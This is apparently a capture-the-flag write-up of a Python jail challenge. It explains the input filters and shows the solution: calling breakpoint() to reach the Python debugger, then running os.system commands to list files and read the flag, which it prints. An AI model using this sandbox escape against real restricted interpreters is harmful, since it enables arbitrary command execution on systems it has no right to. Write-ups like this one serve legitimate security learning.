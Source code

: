 # pickle games 1

## Description:

> Tags: medium

> I filtered everything in my python interpreter, Can you get a shell ?

> Author : 1m4D

> ncat -v --ssl pyjail.challs.shellmates.club 443

> Files : [challenge.py](challenge.py)

## First thoughts:

The challenge is a python jail.

> Note: I wasn't able to solve the challenge because I didn't neither read the documentations nor test all the options I had.
I included the challenge because it had a new thing that I learned from it.

## Reading the script:

Reading the script, we find that the input we provide is tested for:

 - each `ord` character must be less then 127, so only ascii.
 - the input must not contain any character from `BLACKLIST`.
 - the input must not include: `input`, `eval` or `exec`

So basically we are left with the alphabet and `(`, `)`.

## TRYING to solving the challenge:

I opened a separate python interpreter and checked the builtin list using `__builtins__`, and I tried `most` of the functions I found.
The approach I was trying to follow sa getting at least basic operations like addition or subtraction so I could craft a payload that tries to get a shell for me, but I wasn't able to do it.

After the CTF ended, I asked the creator of the challenge, and he asked me about the single function that I didn't try: `breakpoint()`.

For context, `breakpoint()` opens a PDB `Python Debugger`, which is  an interpreter that's used to debug the current state of the main interpreter.

## Solution:

From here, we only call `breakpoint()`, import os or any thing we need, and read the flag.

```py
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('ls')
challenge.py
entrypoint.sh
flag.txt
0
(Pdb) os.system('cat flag.txt')
shellmates{BR3kP01nT_BuiLT1N_D0_M4g1C_98765}
```

and the flag is:

```
shellmates{BR3kP01nT_BuiLT1N_D0_M4g1C_98765}
```
